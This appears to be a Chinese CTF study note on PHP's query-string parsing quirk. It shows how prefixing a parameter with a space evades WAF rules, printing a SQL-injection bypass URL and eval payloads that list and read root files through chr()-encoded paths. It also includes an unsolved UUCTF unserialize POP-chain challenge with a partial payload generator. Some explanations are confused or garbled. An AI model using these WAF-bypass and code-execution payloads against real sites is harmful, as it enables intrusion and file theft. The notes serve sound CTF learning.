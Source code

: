 PHP将查询字符串（在URL或正文中）转换为内部GET或的关联数组_POST。例如：/?foo=bar变成Array([foo] => “bar”)。值得注意的是，查询字符串在解析的过程中会将某些字符删除或用下划线代替。例如，/?%20news[id%00=42会转换为Array([news_id] => 42)。如果一个IDS/IPS或WAF中有一条规则是当news_id参数的值是一个非数字的值则拦截，那么我们就可以用以下语句绕过：

/news.php?%20news[id%00=42"+AND+1=0–

上述PHP语句的参数%20news[id%00的值将存储到$_GET[“news_id”]中。

HP需要将所有参数转换为有效的变量名，因此在解析查询字符串时，它会做两件事：

1.删除空白符

2.将某些字符转换为下划线（包括空格）

![](1663836929761-0854ce4c-eea6-4f66-b348-0f70f165ecab.png)

```php
<?php
error_reporting(0);
if(!isset($_GET['num'])){
    show_source(__FILE__);
}else{
        $str = $_GET['num'];
        $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]','\$','\\','\^'];
        foreach ($blacklist as $blackitem) {
                if (preg_match('/' . $blackitem . '/m', $str)) {
                        die("what are you want to do?");
                }
        }
        eval('echo '.$str.';');
}
?>
```

可以发现过滤了很多东西。

但是直接往num参数里传不行，如果在之前的计算那个网页尝试过几次，你会知道那个计算的东西是不允许传入字符的。因此我们可以利用字符串解析的特性，不传入num，而是传入 num(num前面有一个空格)：

为什么要在num前加一个空格？

答：假如waf不允许num变量传递字母，可以在num前加个空格，这样waf就找不到num这个变量了，因为现在的变量叫“ num”，而不是“num”。但php在解析的时候，会先把空格给去掉，这样我们的代码还能正常运行，还上传了非法字符。

? num=var_dump(scandir(chr(47)))

? num=file_get_contents(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103))

![](1663837532434-936822f7-e765-4179-a84a-8c4cf044ba68.png)

[  
](https://blog.csdn.net/rfrder/article/details/109172067)

试试访问calc.php

尝试给num传参：发现只能传数字 而不能传字母。而我们要读取的可能就是flag这个文件

那我们可以利用PHP的字符串解析特性来绕过WAF，在num前面加上空格

绕过num传参后，我们要读取他根目录下的文件。

也就是

calc.php? num=print_r(scandir('/'));

那就用chr()绕过，chr(47)就是斜杠/ ： ? num=print_r(scandir(chr(47)));

输入后 可以浏览根目录下的文件，而其中的falgg就是我们要读取的文件

```html
? num=print_r(file_get_contents('/flagg'));

其中/flagg 用chr进行绕过

? num=print_r(file_get_contents(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103))); 

```

var_dump()用来打印

scandir（）用来获取目录文件
chr（47）是/的ASCII编码，因为/被过滤了，用这个什么都不显示。

搞不懂它为什么会被过滤，被什么过滤。

再就是num前有个空格，用来绕过waf（web防火墙）（为什么是waf？）。

这是php的机制，在传进php代码的url时，一些字符会被忽略或变成_。

因为php一般是这样\$_GET['num']获取url传进来的参数,当有一些奇怪的字符和参数写在一些时，如%[num%id,它会变成$_GET['num_id']。所以在num前加个空格可以绕过waf并且php会把它当成正常的num使用，此时并不是’ num’而是‘num’。

```chr(47)——/  
chr(102)——f  
chr(49)——1  
chr(97)——a  
chr(103)——g  
它们之间用.连接，因为是php。  
我试过用base64.decode('Lw==')代替chr（47）但：`ecode('Lw==')代替chr（47）
```

# 例题  ezpop  UUCTF(公共赛道)

```php
 <?php
//flag in flag.php
error_reporting(0);
class UUCTF{
    public $name,$key,$basedata,$ob;
    function __construct($str){
        $this->name=$str;
    }
    function __wakeup(){
    if($this->key==="UUCTF"){
            $this->ob=unserialize(base64_decode($this->basedata));
        }
        else{
            die("oh!you should learn PHP unserialize String escape!");
        }
    }
}
class output{
    public $a;
    function __toString(){
        $this->a->rce();
    }
}
class nothing{
    public $a;
    public $b;
    public $t;
    function __wakeup(){
        $this->a="";
    }
    function __destruct(){
        $this->b=$this->t;
        die($this->a);
    }
}
class youwant{
    public $cmd;
    function rce(){
        eval($this->cmd);
    }
}
$pdata=$_POST["data"];
if(isset($pdata))
{
    $data=serialize(new UUCTF($pdata));
    $data_replace=str_replace("hacker","loveuu!",$data);
    unserialize($data_replace);
}else{
    highlight_file(__FILE__);
}
?>

```

以上题目未解出，无法触发 toString，无法绕过wakeup？？？？，下面这个也没做出来！！

```php
<?php 

$ml = "phpinfo();";
$ml_l = strlen($ml);

$pay1 = 'O:7:"nothing":3:{s:1:"a";O:6:"output":1:{s:1:"a";O:7:"youwant":1:{s:3:"cmd";s:'.$ml_l.':"'.$ml.'";}}s:1:"b";s:1:"b";s:1:"t";s:1:"t";}';
//$pay1 = 'O:6:"output":1:{s:1:"a";O:7:"youwant":1:{s:3:"cmd";s:'.$ml_l.':"'.$ml.'";}}';
//echo $pay1;echo "\n";echo "\n";
$pay1_base64 = base64_encode($pay1);
//echo $pay1_base64;

$len = strlen($pay1_base64);
//echo $len;

$ha = "hacker";

$le = '";s:3:"key";s:5:"UUCTF";s:8:"basedata";s:'.$len.':"'.$pay1_base64.'";s:2:"ob";N;}';
$pay3 = '";s:3:"key";s:5:"UUCTF";s:8:"basedata";s:'.$len.':"'.$pay1.'";s:2:"ob";N;}';
$len3 = strlen($pay1);
//echo $le;
$len1 = strlen($le);
//echo str_repeat($ha,$len3).$pay3;
echo "\n";echo "\n";
echo str_repeat($ha,$len1).$le;
echo "\n";echo "\n";
echo urlencode(str_repeat($ha,$len1).$le);
echo "\n";echo "\n";
$pay2 = '";s:3:"key";s:5:"UUCTF";s:8:"basedata";N;s:2:"ob";N;}';
$len2 = strlen($pay2);
echo str_repeat($ha,$len2).$pay2;
```


